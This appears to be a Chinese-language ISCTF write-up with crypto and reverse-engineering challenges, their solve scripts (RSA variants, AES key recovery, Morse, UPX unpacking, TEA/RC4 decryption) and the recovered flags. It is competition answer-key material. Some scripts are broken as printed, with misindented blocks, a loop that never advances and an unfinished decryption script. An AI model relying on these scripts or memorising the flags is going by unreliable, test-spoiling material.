这题考7bit and binary 先知道偏移量然后再7bit补位

exp:

```python
from Crypto.Util.number import bytes_to_long

s = 'ID71QI6UV7NRV5ULVJDJ1PTVJDVINVBQUNT'

binary_str = ''
for char in s:
    if '0' <= char <= '9':
        value = int(char)
    else:  # A-E
        value = 10 + ord(char) - ord('A')
    binary_repr = bin(value)[2:].zfill(5)
    binary_str += binary_repr

# Convert the binary string to ASCII
decoded_str = ''
for i in range(0, len(binary_str), 7):
    char_value = int(binary_str[i:i+7], 2)
    decoded_str += chr(char_value)

print(decoded_str)


```


## EasyAES

***

出题人：DexterJie

```python
from secret import flag,key
from Crypto.Util.number import *
from Crypto.Cipher import AES
import os
assert(len(flag)==39)
assert(len(key)==16)


def padding(msg):
	tmp = 16 - len(msg)%16
	pad = hex(tmp)[2:].zfill(2)
	return bytes.fromhex(pad*tmp)+msg
def encrypt(message,key,iv):
	aes = AES.new(key,AES.MODE_CBC,iv=iv)
	enc = aes.encrypt(message)
	return enc
iv = os.urandom(16)
message = padding(flag)
 hint = bytes_to_long(key)^bytes_to_long(message[:16])
enc = encrypt(message,key,iv)
print(enc)
print(hex(hint))
"""
b'bsF\xb6m\xcf\x94\x9fg1\xfaxG\xd4\xa3\x04\xfb\x9c\xac\xed\xbe\xc4\xc0\xb5\x899|u\xbf9e\xe0\xa6\xd
b5\xa8x\x84\x95(\xc6\x18\xfe\x07\x88\x02\xe1v'
0x47405a4847405a48470000021a0f2870
"""

```



```python
from Crypto.Util.number import *
from Crypto.Cipher import AES
import os
def padding(msg):
	tmp = 16 - len(msg)%16
	pad = hex(tmp)[2:].zfill(2)
	return bytes.fromhex(pad*tmp)+msg
hint = 0x47405a4847405a48470000021a0f2870
c =
b'bsF\xb6m\xcf\x94\x9fg1\xfaxG\xd4\xa3\x04\xfb\x9c\xac\xed\xbe\xc4\xc0\xb5\x899|u\xbf9e\xe0\xa6\xd
b5\xa8x\x84\x95(\xc6\x18\xfe\x07\x88\x02\xe1v'
m = b"\t\t\t\t\t\t\t\t\tISCTF{"
for i in range(256):
	try:
	msg = m + long_to_bytes(i)
	key = long_to_bytes(hint ^ bytes_to_long(msg))
	c0 = c[:16]
	aes = AES.new(key,AES.MODE_ECB)
	cc = aes.decrypt(c0)
	iv = long_to_bytes(bytes_to_long(cc) ^ bytes_to_long(msg))
	d = AES.new(key,AES.MODE_CBC,iv = iv)
	flag = d.decrypt(c)
	if (b"ISCTF{" in flag) and (flag[-1] == 125):
		print(flag)
	else:
		pass
except:
		pass
# ISCTF{1b106cea3fb848e7bea310c9851f15c1
```


## signin

***

出题人：DexterJie

```python
from Crypto.Util.number import *
from secret import flag
def genKey(nbits):
	p = getPrime(nbits)
	q = getPrime(nbits)
	N = p*p*q
	d = inverse(N, (p-1)*(q-1)//GCD(p-1, q-1))
	return N,d
def encrypt(message,N):
	m = bytes_to_long(flag)
	c = pow(m, N, N)
	return c
nbits = 1024
m = bytes_to_long(flag)
N,d = genKey(nbits)
c = encrypt(m,N)
print('c =', c)
print('N =', N)
print('d =', d)
"""
c =
29897791365314067508830838449733707533227957127276785142837008063510003132596050393885548439564070
67883869656316457499081175643459973200162213856417632723315438138071764839235767264289314236760736
96799069403715408674566541514088841714676380605230664064416974539719960115481954995492001031238415
56085936672833238264876038160712793697159776332101536779874757463509294968879216810485825310481778
47238453144220603456448853239917124346388190057840774698232477926094195779245521764188333413136661
43106446071141288681538978063629544565856618555694325137852254535017923561756496764197726265480719
16379318631677869452985829916084336045071072493567871623113923140668031380684940109024609167449291
38067512470155754273683472289832808288843056622932284078141133626326859497855856431074407658163946
92104625675435852517187443402161555576060049954495057823028647258568772893880088191350233719480174
25832082773421030256964953984562211638060
N =
32319133728974247088030979698436875208680571907882849750668752416364360212795590267530765283998919
36983240045179193386905918743759145596242896507856007669217275515235051689758768735530529408948098
86052927792104614606547333335711015800864879920787397674504871451686856175420254313062971346136531
46275359823797189316335289220762685313638094142550829336156677704918184021268913701060458386954841
24212397783571579791558324350069782623908757815983802849109451590357380624488436968737140312471089
66242830811324631058833604443826582257455881651005476321598364946700934545848007788262411862078901
57585077362724029987213666623527940824954413038950255853166672298655331666149696410121956682805864
77033200418153345241668242651407009849656745509386158276185301334443855737552801531617549980843398
64875103264989540393931964895490848761971155570012429419170240698112835534844974846644995156845113
5718146828444185238617155432417897711198169
d =
22090819539811704862811004213305703250154826422598582316156546039079382589952366242473291071857935
05245903682872078570596705588521064346151346451834326700237847254303850480282481086776700955242055
18013647694485975996499747580966911259433184798952372110628624294686853944766950244209186984164963
98712041668701281134665649886143843261043170586854182997748187538546814374733435948167321461893115
94031238922131614306024302947909138477220737629993116744281342419562939147161831074143403304494651
42849402354034926378025006749405210014879947411570380433942279355488861684317611066949685697268714
760755591128598654573304969
"""


```




```python
import gmpy2
c =
29897791365314067508830838449733707533227957127276785142837008063510003132596050393885548439564070
67883869656316457499081175643459973200162213856417632723315438138071764839235767264289314236760736
96799069403715408674566541514088841714676380605230664064416974539719960115481954995492001031238415
56085936672833238264876038160712793697159776332101536779874757463509294968879216810485825310481778
47238453144220603456448853239917124346388190057840774698232477926094195779245521764188333413136661
43106446071141288681538978063629544565856618555694325137852254535017923561756496764197726265480719
16379318631677869452985829916084336045071072493567871623113923140668031380684940109024609167449291
38067512470155754273683472289832808288843056622932284078141133626326859497855856431074407658163946
92104625675435852517187443402161555576060049954495057823028647258568772893880088191350233719480174
25832082773421030256964953984562211638060
N =
32319133728974247088030979698436875208680571907882849750668752416364360212795590267530765283998919
36983240045179193386905918743759145596242896507856007669217275515235051689758768735530529408948098
86052927792104614606547333335711015800864879920787397674504871451686856175420254313062971346136531
46275359823797189316335289220762685313638094142550829336156677704918184021268913701060458386954841
24212397783571579791558324350069782623908757815983802849109451590357380624488436968737140312471089
66242830811324631058833604443826582257455881651005476321598364946700934545848007788262411862078901
57585077362724029987213666623527940824954413038950255853166672298655331666149696410121956682805864
77033200418153345241668242651407009849656745509386158276185301334443855737552801531617549980843398
64875103264989540393931964895490848761971155570012429419170240698112835534844974846644995156845113
5718146828444185238617155432417897711198169
d =
22090819539811704862811004213305703250154826422598582316156546039079382589952366242473291071857935
05245903682872078570596705588521064346151346451834326700237847254303850480282481086776700955242055
18013647694485975996499747580966911259433184798952372110628624294686853944766950244209186984164963
98712041668701281134665649886143843261043170586854182997748187538546814374733435948167321461893115
94031238922131614306024302947909138477220737629993116744281342419562939147161831074143403304494651
42849402354034926378025006749405210014879947411570380433942279355488861684317611066949685697268714
760755591128598654573304969
tmp = pow(2,d*N,N) - 2
pq = gmpy2.gcd(tmp,N)
m = pow(c,d,pq)
print(bytes.fromhex(hex(m)[2:]))
# ISCTF{aeb8be10-ff19-42cf-8cfd-2ce71ac418e8}


```


## 1zRSA

***

出题人：DexterJie

```python
from secret import flag
from Crypto.Util.number import *
import gmpy2
	e = 65537
def genKey(nbits):
	while 1:
		p1 = getPrime(3*nbits)
		p2 = gmpy2.next_prime(p1)
		q1 = getPrime(nbits)
		q2 = getPrime(nbits)
		if (abs((p1 - p2)*q1*q2 / p2) < 0.5):
			n1 = p1 * q1
			n2 = p2 * q2
			return n1,n2
def encrypt(message,e,n):
	m = bytes_to_long(message)
	cipher = pow(m,e,n)
	return cipher
e = 65537
nbits = 512
N1,N2 = genKey(nbits)
c = encrypt(flag,e,N1)
print("c =",c)
print("N1 =",N1)
print("N2 =",N2)
"""
c =
10514867898770499427284608506159580569755258729683776720082395249877529851029152305989048383470182
99294574399729563833430112855484176761952880937773665123857670066467587176946968746688534720903302
30211325757004364701052894674236557423231433735782681841415732374339274981437401555528296336014899
26767185335051352605346248971754473960051955670785777007641909166041398566067524811394639822575661
46934015291370641736506568383594598023926866514690095769268559024238654094464658673915842742848447
19785594539546742923004965688233825135055119400621590257003124921634543041209160554661084980009904
08937265075788135466153131436
N1 =
29306627985861300819651846356448043523015086509329909246911330574896611830331438353458702041787309
53157062613666910057650110858102450257021298336997938765804157838446620057336288106076187347859068
46112652491665915109485977987138641277444887474518159196778616847871354640978859066307724721118994
55047125676738720391327331161464894360886214160668909531050207033060523194208723151015702926842472
55493384938034337565469611535996049572790922192625163040837652703329112302689320772244064986739497
16803160084342516675671748062145226216930421649973817293000753943933728089170618133467944228218194
94227772694592990703688149467
N2 =
18405525902524887428651801489049128242565457677879715229456940729064725933277139190670749899959483
73434110374018599177102479703724268156677218904532183865266881911298958797486636106342469821571377
31392818409704998716687967706826925895057690085166306042975705186896398857163074695688216294244027
42264467677407820449195383921766157185602677665872353099155904715047452319853202981674101731121033
36039354794024610186494015516069927741709639599876692821354519649203197513512140930952019885306628
81809448714412242416814781644941697412632362673163805818831968367318726763121258374973204389649401
86318916950049777255612191899
"""

```



```python
# sage
#sage
from Crypto.Util.number import *
import gmpy2
c =
10514867898770499427284608506159580569755258729683776720082395249877529851029152305989048383470182
99294574399729563833430112855484176761952880937773665123857670066467587176946968746688534720903302
30211325757004364701052894674236557423231433735782681841415732374339274981437401555528296336014899
26767185335051352605346248971754473960051955670785777007641909166041398566067524811394639822575661
46934015291370641736506568383594598023926866514690095769268559024238654094464658673915842742848447
19785594539546742923004965688233825135055119400621590257003124921634543041209160554661084980009904
08937265075788135466153131436
N1 =
29306627985861300819651846356448043523015086509329909246911330574896611830331438353458702041787309
53157062613666910057650110858102450257021298336997938765804157838446620057336288106076187347859068
46112652491665915109485977987138641277444887474518159196778616847871354640978859066307724721118994
55047125676738720391327331161464894360886214160668909531050207033060523194208723151015702926842472
55493384938034337565469611535996049572790922192625163040837652703329112302689320772244064986739497
16803160084342516675671748062145226216930421649973817293000753943933728089170618133467944228218194
94227772694592990703688149467
N2 =
18405525902524887428651801489049128242565457677879715229456940729064725933277139190670749899959483
73434110374018599177102479703724268156677218904532183865266881911298958797486636106342469821571377
31392818409704998716687967706826925895057690085166306042975705186896398857163074695688216294244027
42264467677407820449195383921766157185602677665872353099155904715047452319853202981674101731121033
36039354794024610186494015516069927741709639599876692821354519649203197513512140930952019885306628
81809448714412242416814781644941697412632362673163805818831968367318726763121258374973204389649401
86318916950049777255612191899
e = 65537
cf = continued_fraction(Integer(N1) / Integer(N2))
i = 1
    while 1:
        q1 = cf.numerator(i)
        q2 = cf.denominator(i)
        if N1 % q1 == 0 and q1 != 1:
        print(q1)
            p1 = N1 // q1
            d = gmpy2.invert(e,(p1-1)*(q1-1))
            m = pow(c,d,N1)
            flag = long_to_bytes(int(m))
            if b"ISCTF" in flag:
                print(flag)
                break
                i += 1
# ISCTF{6f3af9a9-2727-4d48-afb4-9ca82de893f3}

```


## 夹里夹气

***

出题人:fpclose

下载附件：

```
嘤嘤？嘤嘤？ 嘤嘤？嘤嘤？嘤嘤？ 嘤嘤嘤嘤嘤？嘤嘤嘤嘤嘤？ 嘤嘤嘤 嘤嘤？嘤嘤？嘤嘤嘤嘤嘤？ 嘤嘤嘤
嘤嘤嘤嘤嘤嘤嘤嘤嘤嘤嘤？嘤嘤嘤嘤嘤嘤 嘤嘤？嘤嘤？嘤嘤？嘤嘤？ 嘤嘤？嘤嘤？嘤嘤？ 嘤嘤嘤嘤嘤？嘤
嘤？嘤嘤？ 嘤嘤嘤嘤嘤？嘤嘤？ 嘤嘤？嘤嘤？嘤嘤？嘤嘤？ 嘤嘤？嘤嘤？嘤嘤嘤嘤嘤嘤嘤嘤？嘤嘤嘤 嘤
嘤？嘤嘤？嘤嘤？ 嘤嘤？嘤嘤？嘤嘤嘤嘤嘤？ 嘤嘤？嘤嘤嘤嘤嘤嘤嘤嘤嘤 嘤嘤？嘤嘤？嘤嘤嘤嘤嘤嘤嘤
嘤？嘤嘤嘤 嘤嘤？嘤嘤嘤嘤嘤嘤嘤嘤嘤 嘤嘤嘤嘤嘤？嘤嘤？ 嘤嘤嘤嘤嘤？ 嘤嘤？嘤嘤？嘤嘤嘤嘤嘤？ 嘤
嘤？嘤嘤嘤嘤嘤嘤嘤嘤嘤 嘤嘤？嘤嘤？嘤嘤嘤嘤嘤嘤嘤嘤？嘤嘤嘤 嘤嘤嘤嘤嘤？嘤嘤？ 嘤嘤？嘤嘤嘤嘤嘤
嘤嘤嘤嘤 嘤嘤嘤嘤嘤？ 嘤嘤？嘤嘤？嘤嘤嘤嘤嘤？ 嘤嘤？嘤嘤嘤嘤嘤嘤嘤嘤嘤 嘤嘤嘤嘤嘤？嘤嘤？ 嘤嘤
嘤嘤嘤嘤 嘤嘤嘤嘤嘤嘤嘤嘤嘤嘤嘤嘤嘤嘤嘤嘤嘤？嘤嘤嘤

```

反应过来应该是莫斯密码。将”嘤嘤嘤“替换为”-“。将”嘤嘤？“替换为”.“。之后得到：

```
.. ... -.-. - ..-. ----.-- .... ... -... -.. .... ..--.- ... ..-. .--- ..--.- .--
- -.. -. ..-. .--- ..--.- -.. .--- -. ..-. .--- -.. -- -----.-
```

使用在线工具解码得到：

```
ISCTF%u7bHSBDH_SFJ_JDNFJ_DJNFJDM%u7d
```

将其换为小写就是flag。


## 七七的欧拉

***

出题人：D0UBL3SEV3N

下载附件

```python
import gmpy2 import libnum 
from crypto.Util.number import * 
 
flag=b'ISCTF{*************}' m=bytes_to_long(flag) 
 
p=libnum.generate_prime(1024) e=libnum.generate_prime(512) 
 
c=pow(m,e,n) 
output = open('output1.txt', 'w') output.write('e=' + str(e) + '\n') output.write('n=' + str(n) + '\n') output.write('c=' + str(c) + '\n') output.close() 


```

不难看出这是一道 RSA 题。附件给出了 e,n 和 c，但是没有 p 和 q。无法求出 phi，直接分解 n。不过注意一点，此时的 n 不是两个大素数相乘的形式，而是 p 的 8 次方。



了解欧拉函数后得到：phi=（p\*\*k）-(p\*\*k-1)。这里的 k 就是 8。那么可以计算 phi=（p\*\*8） -(p\*\*7) 进而求出私钥 d 和明文 m 代码如下：

```python
import gmpy2
import libnum
from crypto.Util.number import *
# 解密脚本
e=8401285423075497989963572888601376313375827722858883767564499066473101615084214973041844878664837606157257039358849583049856161628241418012475432529735909
n=43215244169837806469948347786124868518637093399705956124095500860672112244071440191107980994016600103056456815489801605632161017864478752319768351155313753726788863395874802512110728941865586278973537930986087668680670295786671714198901505996407815947550803914894474620421675292033892360657272741660917412270684699876810837941399253275458100240389371324635182256115787277379407467848918675324981846428928265697775591076094932123320545593664090076855047681633762502816440040677450878996537780234141059730476200412881184046579346892531920437285902316181327165670846216700742563129393052652444861457586099712490776390852046809231081324152165435414725345804142742509799403304595515368302684285082178210606042608051090715344578083556643299027796030508780556907724308428657012493780967758997782558487731711083413311286732498990371338515355565159616999258091394765768255241351112372497092415799038071792520110107948672697151707398953923759207575597215160506806666587199904978636469893389602618447621271424394862752946708581140796875722433121842221267109677449717755857230455244677083870510347602087689568899390504981391893528420872781251739571828041160524027784162166695223096922660360943713081666637382842096152120165641710758744214720704224163189019265257194859917921114143333980044331437519081993588615147253133343337035392394148067737439419861649816425176731174126664304633185095717577665108356007580609768483743533522390449080345014772956966842948160918019441638775095589090407539075846723908238939916722467260262169730133303139710075140648318015647033645916966109000892283029365958480246166918784376187988641866348026475682395267711513236096505981567015952658767367126706774520130543933362944834524802132710324882012599907822890471321059898469724620943021325648090258024210575370918709320148846068638072605211230844236894944019000142322573818015907837355955752581602742484944985505836736887542208601424136315212794643189874254473021354440936630345984556949011993124974592282547464512330789549041599832695858831469599282226986724136483643911216960922878489315657985572178976782213794510423048114494159824340555225998298434828100257803492845474917672192215103514111922512365173418266193380843481365391214152103454883595639850461366320776654607933463450512130148360883332669116


```

得到 flag：

```
ISCTF{3237saq-21se82-3s74f8-8h84ps7-9qw45v7-6bs531-s26h23-c7iu01}
```


## rsa_d

***

出题人：f00001111

考点：RSA计算过程

入门题，根据RSA计算公式即可求出d，输入d后获得flag

```python
p=xxxxxxxx
q=xxxxxxxx
e=xxxxxxxx
phin=(p-1)*(q-1)
d=pow(e,-1,phin)

```


## easy_rsa

***

出题人：f00001111

考点：RSA计算过程

入门题，根据RSA计算公式求出flag

```python
p=xxxxxxxxxx
q=xxxxxxxxxx
e=xxxxxxxxxx
c=xxxxxxxxxx
n=p*q
phin=(p-1)*(q-1)
d=pow(e,-1,phin)
m=pow(c,d,n)

```


## baby group

***

出题人：guoql

很明显，这道题给了一个mask\*mask的值，并计算了其mask的哈希值，然后利用一个新的mul\\\*mask得到了一个hash，用这个hash的值异或flag得到msg，加密msg

因此我们要关注的点在mask的求解和解密msg

首先看mask是由P生成的，P中生成了一个给定大小的自然数序列并打乱

P的乘法是在在右乘中找左乘中对应位置的数

如[1,4,3,2,5] \\\* [a,b,c,d,e]

左乘列表中第一个值是1，在右乘列表中找第1个值，为a

左乘列表中第二个值为4，在右乘列表中找第4个值，为d

以此类推，得到[a,d,c,b,e]

实际上P类是sage permutation group

即构成了一个\$S_256\$对称群

根据群论的理论，我们将题目抽象为

给定一个对称群\$P\^2\$求P

易验证下列三条性质

1、对于任意一个对称群G，总能由属于群G不同元素完全重组成多个循环，对于其中第i个循环，不妨将该循环记作\$R_i\$，即\$\$\\forall a \\in G \\ to a \\in R_i \\quad and \\quad \\forall i,j \< n,i \\neq j \\to P_i \\cap P_j = \\varnothing\$\$

2、若\$P_i\$的长度为奇数，则对于G的任意次方所组成的循环中，\$P_i\$的元素不变

3、若\$P_i的长度为偶数，则对于偶数次循环中，其\$P_i\$的长度会减半，变成两个相同长度的循环

如群[7,4,1,8,9,5,6,2,3]可以分为(1, 7, 6, 5, 9, 3), (2, 4, 8)两个循环，不妨验证(2,4,8)组成了一个循环，从该循环第一个元素出发，第2个元素是4，第4个元素是8，第8个元素是2，即如果G自乘，该循环中的三个元素位置只可能是2,4,8且值也为2,4,8，只不过对于的位置和值可能不同。

再考虑该循环，显然元素有奇数个，即长度为奇数，由上述易证，只可能是2,4,8，循环不变。

而对于(1, 7, 6, 5, 9, 3)，显然对\$G\^2\$来说，\$G\^2\$:[6, 8, 7, 2, 3, 9, 5, 4, 1]，组成的循环为[(1, 6, 9), (2, 8, 4), (3, 7, 5)]

显然分解成了两个长度相等，大小为原来的一半的两个新循环，而奇数长度不变。

有了上述性质，大家可以试着再解一下前半部分题目。

那么我们来求解该题目，显然，mask可以分解为不同的循环组成的。

我们依旧记mask为G,对于\$G\^2\$，其中的奇数次循环既可能是原来就是奇数次循环，也可能是偶数次循环分解得到的。对于其中的偶数次循环，一定是由一个大循环分解过来的。如果是分解得到的，那么两个循环长度相等。

因此我们可以得到以下思路：

对于奇数次循环，我们寻找\$G\^2\$的所有循环里是否有与该奇数次循环长度一样的循环，如果没有，说明该循环就是我们找的本身。如果有，可能是巧合，也可能是由一个大循环分解过来的。

对于偶数次循环，必定能找到与其长度相同的循环。

现在，假设我们找到了G对应的循环，我们应该如何由循环恢复G呢？

引入定理：

若两个循环没有重复的元素，则它们的顺序可互换

那么对于一个自然循环群，乘上上述的各个循环即可恢复群。

现在问题是，循环中只是元素不变，如何确定循环中各元素的位置？

可自行验证， 若对于G的循环，其\$G\^2\$的相同循环（此处的相同指的是偶数分解后的两个循环或者奇数循环本身）总是按照隔一个取一个的形式来进行的。如对循环(1,3,4,6,9,8,7)，其\$G\^2\$的该循环为(1,4,9,7,3,6,8)

读者可自行验证G=[3,5,4,6,2,9,1,7,8]时是否满足上述情况。

而对于偶数长度的循环，上述也适用，但无法确定谁在开始位，譬如(2,4)和(1,3)既可以是(1,2,3,4)也可以是(2,1,4,3)，此时需要遍历查找

由上述所有定理可以得到搜索算法，将搜索时间从256！降到可行的水平。

由于本wp默认无群论基础也可以看懂，所以讲的相对啰嗦

第二部分为一个简单的格密码学问题

具体公式渲染由于文档问题无法贴出，此处贴出出题人在CSDN上渲染后的结果wp：

<https://blog.csdn.net/qq_42557115/article/details/134758791>


## ezRSA

***

出题人：guoql

本题依旧是两部分

step1就是变形就能解

step2要找一个卡迈克尔数，然后有LCG和RSA组合（就硬套）

先解决第一部分

有

\$\$leak = (e\^2+(ed-1)\*f)\*getPrime(256) + k\$\$

移项去括号化简，设\$p=getPrime(256)\$

\$\$leak - k = pe\^2 + (ed-1)\*f\*p\$\$

其中f是k的阶乘

e大小为512位，平方为1024位，p为256位，故\$pe\^2\$为1280位

而k在800到1500之间

阶乘函数单调递增，而f(600)为6568位

显然远大于\$pe\^2\$

因此等式两边同除f,\$pe\^2\$为余数，\$p\*(ed-1)\$为倍数

显然两边有公共因子p

若k不对，两边几乎不可能恰好有共同因子且大小为256位

因此因此遍历k，当两边有共同因子且大小为256bit时找到k和p

而已经有除数和倍数，除数和倍数都除以p

可以得到\$e\^2\$和\$ed-1\$

开方可以得到e，代入右边可以得到d

已知n,e,d可以求得p,q

step1解决。

解决step2，提示有3部分且大小小于一亿，并且为合数但通过素性检验

易知为卡迈克尔数

小于1亿的由三个组成的卡迈克尔数有255个，爆破即可得到56052361

然后此时leak1是典型的rsa题型，\$\$p\^q \\equiv q\\pmod n\$\$

\$\$q\^p \\equiv p\\pmod n\$\$

因此leak1实际上为\$p+q\$

与n=p\\\*q联立解方程，有p和q

然后有leak2解LCG，可以求出下一个随机数seed

然后将key和seed异或算出base

这里实际上是将十进制的c转化为base进制的final

已知base转化回来即可

然后算出十进制下的c

解RSA即可。

```
ISCTF{yOu_kn0W_RSAgcd_and_g0Od_at_LCG_also_like_Carmichael_number}
```

具体公式渲染由于文档问题无法贴出，此处贴出 出题人在CSDN上渲染后的结果wp：

<https://blog.csdn.net/qq_42557115/article/details/134758791>

# REVERSE




## EasyRe

***

出题人：D0UBL3SEV3N

考点:代码理解能力，逆向思维能力

下载附件之后载入 ida64，f5 反编译，查看 main 函数

```c
_main();
 strcpy(v4, "]P_ISRF^PCY[I_YWERYC");
 memset(v5, 0, sizeof(v5));
 v6 = 0;
 v7 = 0;
 puts("please input your strings:");
 gets(Str);
 v10 = strlen(Str);
 while ( Str[i] )
 {
 for ( i = 0; i < v10; ++i )
 v8[i] = Str[i] ^ 0x11;
 }
 for ( i = 0; i < v10; ++i )
 {
 if ( v8[i] == 66 || v8[i] == 88 )
 v8[i] = -101 - v8[i];
 }
 for ( i = v10 - 1; i >= 0; --i )
 v8[v10 - i - 1] = v8[i];
 i = 0;
 if ( v10 > 0 )
 {
 if ( v8[i] == v4[i] )
 printf("yes!!!");
 else
 printf("no!!!");
 }
 return 0;
_main();
 strcpy(v4, "]P_ISRF^PCY[I_YWERYC");
 memset(v5, 0, sizeof(v5));
 v6 = 0;
 v7 = 0;
 puts("please input your strings:");
 gets(Str);
 v10 = strlen(Str);
 while ( Str[i] )
 {
 for ( i = 0; i < v10; ++i )
 v8[i] = Str[i] ^ 0x11;
 }
 for ( i = 0; i < v10; ++i )
 {
 if ( v8[i] == 66 || v8[i] == 88 )
 v8[i] = -101 - v8[i];
 }
 for ( i = v10 - 1; i >= 0; --i )
 v8[v10 - i - 1] = v8[i];
 i = 0;
 if ( v10 > 0 )
 {
 if ( v8[i] == v4[i] )
 printf("yes!!!");
 else
 printf("no!!!");
 }
 return 0;
}
```

主函数逻辑是，由用户输入一个字符串，然后将字符串每一个字符与 0x11 异或。异或完了之 后检测字符串中是否有字母 B 和字母 X 因为（66 是 B，88 是 X）如果有就执行 155-66 或者 155-88

实际上这里的目的也就是字符替换



接着往下，就是倒序经过变换后的字符串。



接着到了比较这里：



显然，是比较 v8 和 v4 两个数组的数据是否完全相同，如果相同那么输出判断 yes，反之判断 no。而 v4 的数据已经给了，v8 又是 flag 经过变化后得到的密文，那么显然密文就是 v4 的数 据，也就是：



那么得到密文之后，解题过程就应该和算法反过来，先把这个字符串逆序，然后字符替换，然 后与 0x11 异或，最后输出得到 flag。

解题脚本如下：

```c++
#include <stdio.h>
#include <string.h>
#include <ctype.h>
int main(){
    char String[99];
    int i;
    char s1[99],s2[99];
    printf("please input your strings:\n");
    gets(String);
    int n=strlen(String);
    for(i=n-1;i>=0;i--) //逆序字符串
        s1[n-i-1]=String[i];
    for(i=0;i<strlen(s1);i++){
        if(s1[i] == 'Y' || s1[i]== 'C') //字符替换，因为题目替换的是 B和 X，155-66 是 89，155-88 是 67.所以这里换成 Y 和 C 把 B 和 X 换回来
            s1[i]=0x9b-s1[i];
    }
    for(i=0;i<strlen(s1);i++)
        s2[i]=s1[i]^0x11; //异或运算。
    for(i=0;i<strlen(s2);i++)
        printf("%c",s2[i]); //输出 flag
    return 0;
}

```



得到 flag

```
ISCTF{SNXJSIAOWMCBXNAL}
```


## crackme

***

出题人：D0UBL3SEV3N

下载附件后拖入 Exeinfo PE 查壳



首先看到是 upx 壳，但是提示不要尝试用 upx.exe -d 去脱：



EP section 不对，是被改了，winhex 查看：



改对应的 16 进制，让第一个 PFX0 变成 UPX0，第二个 PFX0 变成 UPX1，也就是把第一个 50 46 58 30 改成 55 50 58 30；第二个 50 46 58 30 改成 55 50 58 31 如下：



再去查一下是否正常了



显示正常，脱壳：



然后载入 ida64 找到主函数





反编译 拿到 flag

```
ISCTF{873c-298c-2948-23bh-291h-kt30}
```

这题有非预期，直接运行程序也能得到flag。


## babyRe

***

出题人：D0UBL3SEV3N

考点：pyinstxtractor， python 逆向

下载附件，是一个 txt 文件和一个 exe 文件。

exe 是 pyinstaller 打包 py 文件生成的 exe 文件。用 pyinstxtractor2.0 解 exe 文件。因为

pyinstxtractor1.0 解包的时候存在丢失头文件的情况。也可以手动在解 exe 下来的 题目名

称.pyc 文件添加 struct.pyc 文件头。但是使用 pyinstxtractor2.0 就不会存在上述问题。具体细节

请了解 pyc 逆向,这里不再赘述。

首先，使用 pyinstxtractor2.0 把 exe 程序解包。

得到下面这些内容。我们着重注意 struct.pyc 和 babyRe.pyc 文件



载入 010，对比 strcut.pyc，看 babyRe.pyc 是否丢失文件头。对比之后没有。如果使用

pyinstxtractor1.0 就可能出现 babyRe.pyc 文件没有第一行的那些东西， 那样的话需要手动添

加。





然后，就是把 pyc 文件反编译为可读的 py 文件。其实可以发现这个 pyc 文件是 python3.7 版

本的，对于 3.8 版本以上的 pyc 文件， 在线网站和 uncompyle6 反编译可能会不成功。

这里就有多种方法反编译，可以在线网站反编译也可以直接 uncompyle6 去反编译。命令就是

```
uncompyle6 -o babyRe.py babyRe.pyc
```

两种方法都可以获得源码。









观察题目 py 文件可以知道，这是一道 RSA，但是题目给出的是 p+q 和（p+）\*（q+1）

推导公式：

```
令 x=p+q
令 y=(p+1)*(q+1)
y 展开：pq+p+q+1,也就是 n+x+1
那么， n=y-x-1
phi=(p-1)*(q-1)=pq-p-q+1=n-x+1
即 phi=n-x+1
```

解题脚本

```python
import libnum
from crypto.Util.number import long_to_bytes
import gmpy2
x = 292884018782106151080211087047278002613718113661882871562870811030932129300110050822187903340426820507419488984883216665816506575312384940488196435920320779296487709207011656728480651848786849994095965852212548311864730225380390740637527033103610408592664948012814290769567441038868614508362013860087396409860
y = 21292789073160227295768319780997976991300923684414991432030077313041762314144710093780468352616448047534339208324518089727210764843655182515955359309813600286949887218916518346391288151954579692912105787780604137276300957046899460796651855983154616583709095921532639371311099659697834887064510351319531902433355833604752638757132129136704458119767279776712516825379722837005380965686817229771252693736534397063201880826010273930761767650438638395019411119979149337260776965247144705915951674697425506236801595477159432369862377378306461809669885764689526096087635635247658396780671976617716801660025870405374520076160
c = 5203005542361323780340103662023144468501161788183930759975924790394097999367062944602228590598053194005601497154183700604614648980958953643596732510635460233363517206803267054976506058495592964781868943617992245808463957957161100800155936109928340808755112091651619258385206684038063600864669934451439637410568700470057362554045334836098013308228518175901113235436257998397401389511926288739759268080251377782356779624616546966237213737535252748926042086203600860251557074440685879354169866206490962331203234019516485700964227924668452181975961352914304357731769081382406940750260817547299552705287482926593175925396
e = 65537
n = y-x-1
phi = n-x+1
d = gmpy2.invert(e,phi)
m = pow(c,d,n)
print(long_to_bytes(m))

```



得到flag

```
ISCTF{kisl-iopa-qdnc-tbfs-ualv}
```


## where

***

出题人:pl1rry


where解题脚本

```C
//where解题脚本

#include "stdio.h"
#include<string.h>
#include "dataFlag.h"
#include <stdlib.h>


void Tea(unsigned char* str){
	printf("Tea解密中\n");
	unsigned int* box = (unsigned int*) str;
	for(int i = 6; i >= 0; i  = i - 2){
		unsigned int sum=0;
		unsigned int k0 = str[(i + 2) * 4 % 32], k1 = str[(i + 2) * 4 % 32 + 1], k2 = str[(i + 2) * 4 % 32 + 2], k3 = str[(i + 2) * 4 % 32 + 3];
		unsigned int delta=0xDEADBEEF;
		unsigned int l = box[i], r=box[i + 1];
		for(int ii = 0; ii < 32; ii++){
			sum+=delta;
		}
		for(int j = 0; j < 32; j++){
			r-=((l<<4)+k2)^(l+sum)^((l>>5)+k3);
			l-=((r<<4)+k0)^(r+sum)^((r>>5)+k1);
			sum-=delta;
		}
		box[i] = l;
		box[i + 1] = r;
	}
	printf("Tea解密完毕\n");
}

int initST(unsigned char *S, unsigned char *T, unsigned char *K, int len)
{
        int i = 0;

        for(i=0; i<256; i++)
        {
                S[i] = i;
                T[i] = K[i%len];
        }

        return 0;
}

int initS(unsigned char *S, unsigned char *T)
{
        unsigned char tmp = 0x00;
        int i = 0;
        int j = 0;

        for(i=0; i<256; i++)
        {
                j = (j + S[i] + T[i]) % 256;
                tmp = S[j];
                S[j] = S[i];
                S[i] = tmp;
        }

        return 0;
}

int initK(unsigned char *S, unsigned char *K, int len)
{
        unsigned char tmp = 0x00;
        int i = 0;
        int j = 0;
        int r = 0;
        int t = 0;

        for(r=0; r<len; r++)
        {
                i = (i + 1) % 256;
                j = (j + S[i]) % 256;
                tmp = S[j];
                S[j] = S[i];
                S[i] = tmp;
                t = (S[i] + S[j]) % 256;
                K[r] = S[t];
        }
        return 0;
}

int RC4(unsigned char *K, unsigned char *M, unsigned char *E, int len){
        int i = 0;
		unsigned char ans[33] = {0};
		memcpy(ans, M,32);
        for(i=0; i<len; i++){
			if(i == 0){
				E[i] = (M[i] ^ K[i]);
			}else{
